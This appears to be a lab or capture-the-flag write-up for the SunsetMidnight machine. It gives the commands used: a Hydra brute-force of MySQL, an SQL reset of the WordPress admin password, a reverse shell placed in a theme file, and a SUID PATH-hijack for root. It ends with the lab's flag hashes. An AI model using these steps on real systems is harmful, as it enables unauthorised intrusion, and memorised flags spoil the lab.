


# SunsetMidnight

**IP Address:** 192.168.238.88

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:--------|:---------|
| 22 | ssh | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80 | http | Apache httpd 2.4.38 ((Debian)) |
| 3306 | mysql | MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1 |

## Exploitation
### Exploit Details (Weak Credentials)
* **Name** - Weak Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. We can easily bruteforce the credentials to the mysql service using Hydra, because we can't crack the password we reset it.  

Commands
```
hydra -l root -P /usr/share/wordlists/rockyou.txt $ip mysql -t 16
mysql -h $ip -u root -p
robert
use wordpress_db;
update wp_users set user_pass=md5('admin') where user_login='admin'; 
```



2. Log in to wordpress with the new password and upload a reverse shell into the 404.php file for the twentytwenty theme. Then we initiate the reverse shell. 

Commands
```
curl http://$ip/wp-content/themes/twentytwenty/404.php
whoami
cat /home/jose/local.txt
```


## Privilege Escalation
### Exploit Details (Insecure File Permissions (SUID))
* **Name** - Insecure File Permissions (SUID)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The /usr/bin/status binary is running with SUID permissions and is calling service without a full path so it can be impersonated. 

Commands
```bash
export PATH=/tmp:$PATH                   
echo "/bin/sh -p" > /tmp/service       
chmod +x /tmp/service                  
/usr/bin/status 
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
4c3570c255a765ac1d40c46cd8634030
proof.txt
04bcdfc925cfc6d362ea9b0a8da3e65c
```